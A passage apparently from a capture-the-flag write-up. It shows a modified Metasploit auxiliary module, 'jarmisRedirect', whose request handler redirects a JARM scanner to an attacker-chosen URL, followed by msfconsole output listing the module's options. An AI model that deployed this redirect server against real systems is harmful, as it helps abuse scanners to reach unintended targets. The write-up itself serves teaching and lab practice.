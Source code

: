 ```

  def on_request_uri(cli, req)    
    if datastore['RedirectURL']    
      print_status("Redirecting client #{cli.peerhost} to #{datastore['RedirectURL']}")    
      send_redirect(cli, datastore['RedirectURL'])    
    else    
      send_not_found(cli)    
    end    
  end   

```

Other than that, I’ll just update the metadata and how the options are set. The full script can be found [here](/files/jarmis-msf-mod.rb).

In MSF, I can exit and start it again, or run `reload_all` to get the new module. It’s there:

```

msf6 > search jarmis

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/server/jarmisRedirect                   normal  No     Redirect Jarmis Scanner to something else

Interact with a module by name or index. For example info 0, use 0 or use auxiliary/server/jarmisRedirect

msf6 > use 0
msf6 auxiliary(server/jarmisRedirect) > options

Module options (auxiliary/server/jarmisRedirect):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   RedirectURL                   yes       The page to redirect users to
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      443              yes       The local port to listen on.
   SSL          true             yes       Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)

Auxiliary action:

   Name      Description
   ----      -----------
   Redirect  Run redirect web server

```
